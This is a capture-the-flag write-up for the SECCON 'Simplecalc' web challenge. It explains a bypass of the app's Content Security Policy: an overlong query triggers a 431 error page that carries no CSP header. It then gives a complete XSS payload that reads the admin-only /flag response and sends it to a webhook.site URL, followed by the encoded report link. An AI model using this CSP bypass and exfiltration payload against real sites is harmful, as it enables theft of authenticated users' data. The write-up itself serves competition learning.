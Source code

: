 # Simplecalc - Web problem - writeup by Vie

> (193 pt)
> author: Satoooon
>
> This is a simplest calculator app.
> 
> Note: Don't forget that the target host is localhost from the admin bot.
>
> http://simplecalc.seccon.games:3000
>
> [simplecalc.tar.gz](./simplecalc.tar.gz) 6723d8fd7db93c5c0181845cfadd5048f4fdd267



## Overview

Self-explanatory app - you can submit equations which are processed into a client-side `eval`, your expression of which will appear in an `expr?=` GET query to index the result. 

The source is minimal, so we can focus on the good parts easily: 

```js
app.use((req, res, next) => {
  const js_url = new URL(`http://${req.hostname}:${PORT}/js/index.js`);
  res.header('Content-Security-Policy', `default-src ${js_url} 'unsafe-eval';`);
  next();
});
```

The app applies a CSP to, ostensibly, all locations of the app, with a `default-src` set to `http://simplecalc.seccon.games:3000/js/index.js` (or `localhost` if running locally, or according to the bot) allowing it to `unsafe-eval`.

```js
app.get('/flag', (req, res) => {
  console.log(req.cookies.token);
  if (req.cookies.token !== ADMIN_TOKEN || !req.get('X-FLAG')) {
    return res.send('No flag for you!');
  }
  return res.send(FLAG);
});
```

Flag is in an endpoint, and you need both an admin token and the presence of an X-FLAG header to get it. The header is easy but the token means only the admin will actually be able to see the flag.

```js
app.post('/report', reportLimiter, async (req, res) => {
  const { expr } = req.body;

  const url = new URL(`http://localhost:${PORT}/`)
  url.searchParams.append('expr', expr);

  try {
    await visit(url);
    return res.sendStatus(200);
  } catch (err) {
    console.error(err);
    return res.status(500).send('Something wrong');
  }
});
```

Admin only visits sites under the challenge domain. No cross-site shenanigans.

In bot.js: 

```js
   await page.setCookie({
      name: 'token',
      value: ADMIN_TOKEN,
      domain: `${APP_HOST}:${APP_PORT}`,
      httpOnly: true
    });
```

The ADMIN_TOKEN is httpOnly, so we can't steal it for ourselves.


## Unintended Attack

First and foremost, you can bypass the CSP by forcing a page under the simplecalc/localhost domain by navigating to `http://simplecalc.seccon.games:3000/js/index.js?<extremely_long_sequence_of_charactars_here>` and the length of your GET query will force a status code 431. The content of the page is irrelevant for our purposes, what's relevant is that the 431'd page lacks the CSP header. This is a page under the correct domain but with no CSP, so we can utilize our `fetch` or `xhr` XSS payloads freely. In order to attack this, you open an iframe with its src set to `http://simplecalc.seccon.games:3000/js/index.js?<extremely_long_sequence_of_charactars_here>`, append it to the document, and then when it loads, access its contentWindow to then access the page's `eval`. From there you get a straightforward XSS.


Put this in the `?expr=` query: 


```js
var gib=document.createElement('iframe');gib.src="http://localhost:3000/js/index.js?"+"a".repeat(0x5000);document.body.appendChild(gib);gib.onload=function(){gib.contentWindow.eval('x=new XMLHttpRequest;x.onload=function(){t=this.responseText;y=new XMLHttpRequest;y.open("GET","http://webhook.site/1ec04c0d-14c5-41d9-80cd-dba3875c48d1?"+t);y.send();};x.open("GET","http://localhost:3000/flag");x.setRequestHeader("X-FLAG","ok");x.withCredentials=true;x.send();')}

```

And submit the calculated result to the admin:

```
http://simplecalc.seccon.games:3000?expr=var%20gib%3Ddocument.createElement%28%27iframe%27%29%3Bgib.src%3D%22http%3A%2F%2Flocalhost%3A3000%2Fjs%2Findex.js%3F%22%2B%22a%22.repeat%280x5000%29%3Bdocument.body.appendChild%28gib%29%3Bgib.onload%3Dfunction%28%29%7Bgib.contentWindow.eval%28%27x%3Dnew%20XMLHttpRequest%3Bx.onload%3Dfunction%28%29%7Bt%3Dthis.responseText%3By%3Dnew%20XMLHttpRequest%3By.open%28%22GET%22%2C%22http%3A%2F%2Fwebhook.site%2F1ec04c0d-14c5-41d9-80cd-dba3875c48d1%3F%22%2Bt%29%3By.send%28%29%3B%7D%3Bx.open%28%22GET%22%2C%22http%3A%2F%2Flocalhost%3A3000%2Fflag%22%29%3Bx.setRequestHeader%28%22X-FLAG%22%2C%22ok%22%29%3Bx.withCredentials%3Dtrue%3Bx.send%28%29%3B%27%29%7D
```

And wait for flag: `SECCON{service_worker_is_powerfull_49a3b7bf6d2ae18d}` _Oh_, service workers, huh. My unintended soln was pretty fun to do too though. :>

